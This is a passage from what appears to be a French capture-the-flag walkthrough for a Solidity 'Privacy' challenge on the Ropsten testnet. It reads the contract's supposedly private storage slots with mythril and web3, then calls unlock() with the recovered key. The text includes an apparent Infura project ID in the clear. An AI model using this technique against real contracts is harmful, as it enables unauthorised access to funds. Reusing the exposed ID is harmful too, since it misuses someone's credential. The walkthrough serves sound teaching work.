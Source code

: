 ```javascript
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

### Analyse

Notre but est d'avoir `locked` à `false`. Pour cela, nous devons connaître la valeur de `data[2]`.

On peut soit utiliser `myth`:

```bash
$ docker run -it --net=host -e INFURA_ID=2f41df8d365740f88e9dd04b27121b10 mythril/myth read-storage --rpc infura-ropsten 0,5 0xA2658BF87985AA3FDBAE8D583BBE833541F989E2
0x0: 0x0000000000000000000000000000000000000000000000000000000000000001 # slot 0
# 01: bool public locked = true;
0x1: 0x000000000000000000000000000000000000000000000000000000005ec6de35 # slot 1
# 5ec6de35: uint256 public ID = block.timestamp; (epoch date)
0x2: 0x00000000000000000000000000000000000000000000000000000000de35ff0a # slot 2
# 0a: uint8 private flattening = 10;
# ff: uint8 private denomination = 255;
# de35: uint16 private awkwardness = uint16(now);
0x3: 0x62bced84fa5500b88774e56f38ca29ee894cc1a6ffd59d366e7aef76e93ada0b # slot 3
# data[0]
0x4: 0x0629adc4d6cd7bf2add11921eeb106385635e233b5377a5552cdd994b6ae9d80 # slot 4
# data[1]
0x5: 0xd8a145f5f299502569822b0c169e864f8e299d3e8ce7f7625d658007419d93f7 # slot 5
# data[2]
0x6: 0x0000000000000000000000000000000000000000000000000000000000000000
0x7: 0x0000000000000000000000000000000000000000000000000000000000000000
0x8: 0x0000000000000000000000000000000000000000000000000000000000000000
0x9: 0x0000000000000000000000000000000000000000000000000000000000000000
```

Soit utiliser `web3`:

```javascript
> await web3.eth.getStorageAt("0xA2658bf87985AA3fdBAE8d583BbE833541F989e2",0)
"0x0000000000000000000000000000000000000000000000000000000000000001"
> await web3.eth.getStorageAt("0xA2658bf87985AA3fdBAE8d583BbE833541F989e2",1)
"0x000000000000000000000000000000000000000000000000000000005ec6de35"
> await web3.eth.getStorageAt("0xA2658bf87985AA3fdBAE8d583BbE833541F989e2",2)
"0x00000000000000000000000000000000000000000000000000000000de35ff0a"
...
```

### Attaque

Nous avons la valeur de `data[2]`, on peut unlock.

```javascript
> await contract.locked()
true

> await contract.unlock("0xd8a145f5f299502569822b0c169e864f8e299d3e8ce7f7625d658007419d93f7");

> await contract.locked()
false
```
